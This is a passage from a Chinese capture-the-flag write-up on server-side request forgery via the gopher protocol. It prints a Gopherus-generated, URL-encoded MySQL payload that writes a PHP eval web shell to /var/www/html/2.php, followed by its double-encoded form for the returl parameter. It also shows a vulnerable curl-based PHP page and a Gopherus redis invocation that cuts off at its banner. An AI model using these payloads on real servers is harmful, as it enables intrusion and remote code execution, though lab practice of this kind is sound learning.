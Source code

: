 ```shell
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

说的很清楚了，只能用于mysql没有密码的环境

然后将`_`后面的内容再进行url编码一次，因为**curl**为防止特殊字符会先url解码一次检测是否有特殊字符

```php
payload
returl=gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254a%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2527%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2570%2561%2573%2573%255d%2529%253b%2520%253f%253e%2527%2520%2549%254e%2554%254f%2520%254f%2555%2554%2546%2549%254c%2545%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2532%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501&u=123
```

#### web360

简介说了打redis

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

那就同样用**Gopherus**来打

```shell
root@xl-pc:/home/xlccccc/Gopherus-master# gopherus --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


```